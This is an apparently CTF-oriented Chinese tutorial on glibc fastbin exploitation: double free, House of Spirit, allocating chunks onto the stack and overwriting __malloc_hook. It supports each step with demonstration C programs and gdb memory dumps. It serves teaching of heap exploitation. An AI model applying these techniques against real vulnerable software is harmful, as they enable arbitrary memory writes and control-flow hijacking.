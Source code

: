Fastbin Attack
==============

介绍
----

fastbin attack 是一类漏洞的利用方法，是指所有基于 fastbin 机制的漏洞利用方法。这类利用的前提是：

-  存在堆溢出、use-after-free 等能控制 chunk 内容的漏洞
-  漏洞发生于 fastbin 类型的 chunk 中

如果细分的话，可以做如下的分类：

-  Fastbin Double Free
-  House of Spirit
-  Alloc to Stack
-  Arbitrary Alloc

其中，前两种主要漏洞侧重于利用 ``free`` 函数释放\ **真的 chunk 或伪造的 chunk**\ ，然后再次申请 chunk 进行攻击，后两种侧重于故意修改 ``fd`` 指针，直接利用 ``malloc`` 申请指定位置 chunk 进行攻击。

原理
----

fastbin attack 存在的原因在于 fastbin 是使用单链表来维护释放的堆块的，并且由 fastbin 管理的 chunk 即使被释放，其 next_chunk 的 prev_inuse 位也不会被清空。 我们来看一下 fastbin 是怎样管理空闲 chunk
的。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x30);
        chunk2=malloc(0x30);
        chunk3=malloc(0x30);
        //进行释放
        free(chunk1);
        free(chunk2);
        free(chunk3);
        return 0;
    }

释放前

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000000000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000000000  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

执行三次 free 进行释放后

::

    0x602000:   0x0000000000000000  0x0000000000000041 <=== chunk1
    0x602010:   0x0000000000000000  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000000000
    0x602030:   0x0000000000000000  0x0000000000000000
    0x602040:   0x0000000000000000  0x0000000000000041 <=== chunk2
    0x602050:   0x0000000000602000  0x0000000000000000
    0x602060:   0x0000000000000000  0x0000000000000000
    0x602070:   0x0000000000000000  0x0000000000000000
    0x602080:   0x0000000000000000  0x0000000000000041 <=== chunk3
    0x602090:   0x0000000000602040  0x0000000000000000
    0x6020a0:   0x0000000000000000  0x0000000000000000
    0x6020b0:   0x0000000000000000  0x0000000000000000
    0x6020c0:   0x0000000000000000  0x0000000000020f41 <=== top chunk

此时位于 main_arena 中的 fastbin 链表中已经储存了指向 chunk3 的指针，并且 chunk 3、2、1构成了一个单链表

::

    Fastbins[idx=2, size=0x30,ptr=0x602080]
    ===>Chunk(fd=0x602040, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x602000, size=0x40, flags=PREV_INUSE)
    ===>Chunk(fd=0x000000, size=0x40, flags=PREV_INUSE) 

我们可以使用如下的图片来表示这一点 |image0|

Fastbin Double Free
-------------------

.. 介绍-1:

介绍
~~~~

Fastbin Double Free 是指 fastbin 的 chunk 可以被多次释放，因此可以在 fastbin 链表中存在多次。这样导致的后果是多次分配可以从 fastbin
链表中取出同一个堆块，相当于多个指针指向同一个堆块，结合堆块的数据内容可以实现类似于类型混淆(type confused)的效果。

Fastbin Double Free 能够成功利用主要有两部分的原因

1. fastbin 的堆块被释放后 next_chunk 的 pre_inuse 位不会被清空
2. fastbin 在执行 free 的时候仅验证了 main_arena 直接指向的块，即链表指针头部的块。对于链表后面的块，并没有进行验证。

::

    /* Another simple check: make sure the top of the bin is not the
           record we are going to add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          {
            errstr = "double free or corruption (fasttop)";
            goto errout;
    }

演示
~~~~

下面的示例程序说明了这一点，当我们试图执行以下代码时

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk1);
        return 0;
    }

如果你执行这个程序，不出意外的话会得到如下的结果，这正是 \_int_free 函数检测到了 fastbin 的 double free。

::

    *** Error in `./tst': double free or corruption (fasttop): 0x0000000002200010 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7fbb7a36c7e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x8037a)[0x7fbb7a37537a]
    /lib/x86_64-linux-gnu/libc.so.6(cfree+0x4c)[0x7fbb7a37953c]
    ./tst[0x4005a2]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7fbb7a315830]
    ./tst[0x400499]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    02200000-02221000 rw-p 00000000 00:00 0                                  [heap]
    7fbb74000000-7fbb74021000 rw-p 00000000 00:00 0 
    7fbb74021000-7fbb78000000 ---p 00000000 00:00 0 
    7fbb7a0df000-7fbb7a0f5000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a0f5000-7fbb7a2f4000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f4000-7fbb7a2f5000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7fbb7a2f5000-7fbb7a4b5000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a4b5000-7fbb7a6b5000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b5000-7fbb7a6b9000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6b9000-7fbb7a6bb000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7fbb7a6bb000-7fbb7a6bf000 rw-p 00000000 00:00 0 
    7fbb7a6bf000-7fbb7a6e5000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8c7000-7fbb7a8ca000 rw-p 00000000 00:00 0 
    7fbb7a8e1000-7fbb7a8e4000 rw-p 00000000 00:00 0 
    7fbb7a8e4000-7fbb7a8e5000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e5000-7fbb7a8e6000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7fbb7a8e6000-7fbb7a8e7000 rw-p 00000000 00:00 0 
    7ffcd2f93000-7ffcd2fb4000 rw-p 00000000 00:00 0                          [stack]
    7ffcd2fc8000-7ffcd2fca000 r--p 00000000 00:00 0                          [vvar]
    7ffcd2fca000-7ffcd2fcc000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

如果我们在 chunk1 释放后，再释放 chunk2 ，这样 main_arena 就指向 chunk2 而不是 chunk1 了，此时我们再去释放 chunk1 就不再会被检测到。

::

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        return 0;
    }

第一次释放\ ``free(chunk1)``

|image1|

第二次释放\ ``free(chunk2)``

|image2|

第三次释放\ ``free(chunk1)``

|image3|

注意因为 chunk1 被再次释放因此其 fd 值不再为 0 而是指向 chunk2，这时如果我们可以控制 chunk1 的内容，便可以写入其 fd 指针从而实现在我们想要的任意地址分配 fastbin 块。
下面这个示例演示了这一点，首先跟前面一样构造 main_arena=>chunk1=>chun2=>chunk1的链表。之后第一次调用 malloc 返回 chunk1 之后修改 chunk1 的 fd 指针指向 bss 段上的 bss_chunk，之后我们可以看到 fastbin
会把堆块分配到这里。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    CHUNK bss_chunk;

    int main(void)
    {
        void *chunk1,*chunk2,*chunk3;
        void *chunk_a,*chunk_b;
        
        bss_chunk.size=0x21;
        chunk1=malloc(0x10);
        chunk2=malloc(0x10);
        
        free(chunk1);
        free(chunk2);
        free(chunk1);
        
        chunk_a=malloc(0x10);
        *(long long *)chunk_a=&bss_chunk;
        malloc(0x10);
        malloc(0x10);
        chunk_b=malloc(0x10);
        printf("%p",chunk_b);
        return 0;
    }

在我的系统上 chunk_b 输出的值会是 0x601090，这个值位于bss段中正是我们之前设置的\ ``CHUNK bss_chunk``

::

    Start              End                Offset             Perm Path
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

    0x601080 <bss_chunk>:   0x0000000000000000  0x0000000000000021
    0x601090 <bss_chunk+16>:0x0000000000000000  0x0000000000000000
    0x6010a0:               0x0000000000000000  0x0000000000000000
    0x6010b0:               0x0000000000000000  0x0000000000000000
    0x6010c0:               0x0000000000000000  0x0000000000000000

值得注意的是，我们在 main 函数的第一步就进行了\ ``bss_chunk.size=0x21;``\ 的操作，这是因为_int_malloc会对欲分配位置的 size 域进行验证，如果其 size 与当前 fastbin 链表应有 size 不符就会抛出异常。

::

    *** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
    ======= Backtrace: =========
    /lib/x86_64-linux-gnu/libc.so.6(+0x777e5)[0x7f8f9deb27e5]
    /lib/x86_64-linux-gnu/libc.so.6(+0x82651)[0x7f8f9debd651]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_malloc+0x54)[0x7f8f9debf184]
    ./tst[0x400636]
    /lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xf0)[0x7f8f9de5b830]
    ./tst[0x4004e9]
    ======= Memory map: ========
    00400000-00401000 r-xp 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00600000-00601000 r--p 00000000 08:01 1052570                            /home/Ox9A82/tst/tst
    00601000-00602000 rw-p 00001000 08:01 1052570                            /home/Ox9A82/tst/tst
    00bc4000-00be5000 rw-p 00000000 00:00 0                                  [heap]
    7f8f98000000-7f8f98021000 rw-p 00000000 00:00 0 
    7f8f98021000-7f8f9c000000 ---p 00000000 00:00 0 
    7f8f9dc25000-7f8f9dc3b000 r-xp 00000000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9dc3b000-7f8f9de3a000 ---p 00016000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3a000-7f8f9de3b000 rw-p 00015000 08:01 398790                     /lib/x86_64-linux-gnu/libgcc_s.so.1
    7f8f9de3b000-7f8f9dffb000 r-xp 00000000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9dffb000-7f8f9e1fb000 ---p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1fb000-7f8f9e1ff000 r--p 001c0000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e1ff000-7f8f9e201000 rw-p 001c4000 08:01 415688                     /lib/x86_64-linux-gnu/libc-2.23.so
    7f8f9e201000-7f8f9e205000 rw-p 00000000 00:00 0 
    7f8f9e205000-7f8f9e22b000 r-xp 00000000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e40d000-7f8f9e410000 rw-p 00000000 00:00 0 
    7f8f9e427000-7f8f9e42a000 rw-p 00000000 00:00 0 
    7f8f9e42a000-7f8f9e42b000 r--p 00025000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42b000-7f8f9e42c000 rw-p 00026000 08:01 407367                     /lib/x86_64-linux-gnu/ld-2.23.so
    7f8f9e42c000-7f8f9e42d000 rw-p 00000000 00:00 0 
    7fff71a94000-7fff71ab5000 rw-p 00000000 00:00 0                          [stack]
    7fff71bd9000-7fff71bdb000 r--p 00000000 00:00 0                          [vvar]
    7fff71bdb000-7fff71bdd000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
    已放弃 (核心已转储)

\_int_malloc 中的校验如下

::

    if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
        {
          errstr = "malloc(): memory corruption (fast)";
        errout:
          malloc_printerr (check_action, errstr, chunk2mem (victim));
          return NULL;
    }

小总结
~~~~~~

通过 fastbin double free 我们可以使用多个指针控制同一个堆块，这可以用于篡改一些堆块中的关键数据域或者是实现类似于类型混淆的效果。 如果更进一步修改 fd 指针，则能够实现任意地址分配堆块的效果(
首先要通过验证 )，这就相当于任意地址写任意值的效果。

House Of Spirit
---------------

.. 介绍-2:

介绍
~~~~

House of Spirit 是 ``the Malloc Maleficarum`` 中的一种技术。

该技术的核心在于在目标位置处伪造 fastbin chunk，并将其释放，从而达到分配\ **指定地址**\ 的 chunk 的目的。

要想构造 fastbin fake chunk，并且将其释放时，可以将其放入到对应的 fastbin 链表中，需要绕过一些必要的检测，即

-  fake chunk 的 ISMMAP 位不能为1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
-  fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
-  fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
-  fake chunk 的 next chunk 的大小不能小于 ``2 * SIZE_SZ``\ ，同时也不能大于\ ``av->system_mem`` 。
-  fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

至于为什么要绕过这些检测，可以参考 free 部分的源码。

.. 演示-1:

演示
~~~~

这里就直接以 how2heap 上的例子进行说明，如下

.. code:: c

    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {
        fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

        fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
        malloc(1);

        fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
        unsigned long long *a;
        // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
        unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

        fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

        fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
        fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
        fake_chunks[1] = 0x40; // this is the size

        fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
            // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
        fake_chunks[9] = 0x1234; // nextsize

        fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
        fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
        a = &fake_chunks[2];

        fprintf(stderr, "Freeing the overwritten pointer.\n");
        free(a);

        fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
        fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
    }

运行后的效果如下

.. code:: shell

    ➜  how2heap git:(master) ./house_of_spirit 
    This file demonstrates the house of spirit attack.
    Calling malloc() once so that it sets up its memory.
    We will now overwrite a pointer to point to a fake 'fastbin' region.
    This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
    This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
    ... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. 
    The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
    Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
    ... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
    Freeing the overwritten pointer.
    Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
    malloc(0x30): 0x7ffd9bceaa60

.. 小总结-1:

小总结
~~~~~~

可以看出，想要使用该技术分配 chunk 到指定地址，其实并不需要修改指定地址的任何内容，\ **关键是要能够修改指定地址的前后的内容使其可以绕过对应的检测**\ 。

Alloc to Stack
--------------

.. 介绍-3:

介绍
~~~~

如果你已经理解了前文所讲的 Fastbin Double Free 与 house of spirit 技术，那么理解该技术就已经不成问题了，它们的本质都在于 fastbin 链表的特性：当前 chunk 的 fd 指针指向下一个 chunk。

该技术的核心点在于劫持 fastbin 链表中 chunk 的 fd 指针，把 fd 指针指向我们想要分配的栈上，从而实现控制栈中的一些关键数据，比如返回地址等。

.. 演示-2:

演示
~~~~

这次我们把 fake_chunk 置于栈中称为 stack_chunk，同时劫持了 fastbin 链表中 chunk 的 fd 值，通过把这个 fd 值指向 stack_chunk 就可以实现在栈中分配 fastbin chunk。

::

    typedef struct _chunk
    {
        long long pre_size;
        long long size;
        long long fd;
        long long bk;  
    } CHUNK,*PCHUNK;

    int main(void)
    {
        CHUNK stack_chunk;
        
        void *chunk1;
        void *chunk_a;
        
        stack_chunk.size=0x21;
        chunk1=malloc(0x10);
        
        free(chunk1);
        
        *(long long *)chunk1=&stack_chunk;
        malloc(0x10);
        chunk_a=malloc(0x10);
        return 0;
    }

通过 gdb 调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack_chunk

::

    0x602000:   0x0000000000000000  0x0000000000000021 <=== chunk1
    0x602010:   0x00007fffffffde60  0x0000000000000000
    0x602020:   0x0000000000000000  0x0000000000020fe1 <=== top chunk

之后第一次 malloc 使得 fastbin 链表指向了 stack_chunk，这意味着下一次分配会使用 stack_chunk 的内存进行

::

    0x7ffff7dd1b20 <main_arena>:    0x0000000000000000 <=== unsorted bin
    0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
    0x7ffff7dd1b30 <main_arena+16>: 0x0000000000000000  

最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk

::

       0x400629 <main+83>        call   0x4004c0 <malloc@plt>
     → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
       $rax   : 0x00007fffffffde70
       
    0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
    0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
    0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
    0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
    0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
    0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
    0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
    0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
    0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
    0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
    0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
    0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
    0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
    0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

.. 小总结-2:

小总结
~~~~~~

通过该技术我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

Arbitrary Alloc
---------------

.. 介绍-4:

介绍
~~~~

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。 事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk
分配到任意的可写内存中，比如bss、heap、data、stack等等。

.. 演示-3:

演示
~~~~

在这个例子，我们使用字节错位来实现直接分配 fastbin 到\ **\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**

::

    int main(void)
    {
        
        
        void *chunk1;
        void *chunk_a;
        
        chunk1=malloc(0x60);
        
        free(chunk1);
        
        *(long long *)chunk1=0x7ffff7dd1b05;
        malloc(0x60);
        chunk_a=malloc(0x60);
        return 0;
    }

这里的0x7ffff7dd1b05是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。

::

    0x7ffff7dd1a88 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a90 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1a98 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1aa8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ab8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ac8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ad8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae0 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1ae8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0
    0x7ffff7dd1b00 0x20 0x2e 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b08 0x0  0x2a 0xa9 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1b10 <__malloc_hook>: 0x30    0x28    0xa9    0xf7    0xff    0x7f    0x0 0x0

0x7ffff7dd1b10 是我们想要控制的 \__malloc_hook 的地址，于是我们向上寻找是否可以错位出一个合法的size域。因为这个程序是 64 位的，因此 fastbin 的范围为32字节到128字节(0x20-0x80)，如下：

::

    //这里的size指用户区域，因此要小2倍SIZE_SZ
    Fastbins[idx=0, size=0x10] 
    Fastbins[idx=1, size=0x20] 
    Fastbins[idx=2, size=0x30] 
    Fastbins[idx=3, size=0x40] 
    Fastbins[idx=4, size=0x50] 
    Fastbins[idx=5, size=0x60] 
    Fastbins[idx=6, size=0x70] 

通过观察发现 0x7ffff7dd1af5 处可以现实错位构造出一个0x000000000000007f

::

    0x7ffff7dd1af0 0x60 0x2 0xdd 0xf7 0xff 0x7f 0x0 0x0
    0x7ffff7dd1af8 0x0  0x0 0x0 0x0 0x0 0x0 0x0 0x0

    0x7ffff7dd1af5 <_IO_wide_data_0+309>:   0x000000000000007f

因为 0x7f 在计算 fastbin index 时，是属于 index 5 的，即 chunk 大小为 0x70 的。

.. code:: c

    ##define fastbin_index(sz)                                                      \
        ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

而其大小又包含了 0x10 的 chunk_header，因此我们选择分配 0x60 的 fastbin，将其加入链表。 最后经过两次分配可以观察到 chunk 被分配到 0x00007ffff7dd1b15，因此我们就可以直接控制 \__malloc_hook的内容。

::

    0x4005a8 <main+66>        call   0x400450 <malloc@plt>
     →   0x4005ad <main+71>        mov    QWORD PTR [rbp-0x8], rax
     
     $rax   : 0x00007ffff7dd1b15 
     
